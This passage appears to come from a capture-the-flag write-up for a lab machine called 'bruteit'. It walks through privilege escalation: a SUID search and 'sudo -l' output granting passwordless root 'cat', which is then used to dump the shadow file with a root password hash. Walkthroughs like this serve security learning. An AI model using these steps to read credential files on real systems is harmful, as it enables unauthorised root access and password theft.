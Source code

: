 ```
   31  apt search openssh-server
   32  clear
   33  find / -user root -perm /8000 2>/dev/null
   34  clear
   35  sudo -l
   36  visudo
   37  su root
   38  ls
   39  clear
   40  sudo -l
   41  history
```

Nothing interesting found.

Check sudo privileges:

```bash
sudo -l
```

```
Matching Defaults entries for john on bruteit:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User john may run the following commands on bruteit:
    (root) NOPASSWD: /bin/cat
```

<div align="center">
  <img src="sudo-l.png" alt="sudo -l output" width="800"/>
</div>

We can use `cat` as root. Let's read the shadow file:

let use cat command to get the shadow file
shadow file in linux: Stores user's encrypted passwords

```
root:$6$zdk0.jUm$Vya24cGzM1duJkwM5b17Q205xDJ47LOAg/OpZvJ1gKbLF8PJBdKJA4a6M.JYPUTAaWu4infDjI88U9yUXEVgL.:18490:0:99999:7:::
daemon:*:18295:0:99999:7:::
bin:*:18295:0:99999:7:::
sys:*:18295:0:99999:7:::
sync:*:18295:0:99999:7:::
games:*:18295:0:99999:7:::
man:*:18295:0:99999:7:::
lp:*:18295:0:99999:7:::
mail:*:18295:0:99999:7:::
news:*:18295:0:99999:7:::
uucp:*:18295:0:99999:7:::
proxy:*:18295:0:99999:7:::
www-data:*:18295:0:99999:7:::
backup:*:18295:0:99999:7:::
list:*:18295:0:99999:7:::
irc:*:18295:0:99999:7:::
gnats:*:18295:0:99999:7:::
nobody:*:18295:0:99999:7:::
systemd-network:*:18295:0:99999:7:::
systemd-resolve:*:18295:0:99999:7:::
syslog:*:18295:0:99999:7:::
messagebus:*:18295:0:99999:7:::
_apt:*:18295:0:99999:7:::
lxd:*:18295:0:99999:7:::
uuidd:*:18295:0:99999:7:::
dnsmasq:*:18295:0:99999:7:::
```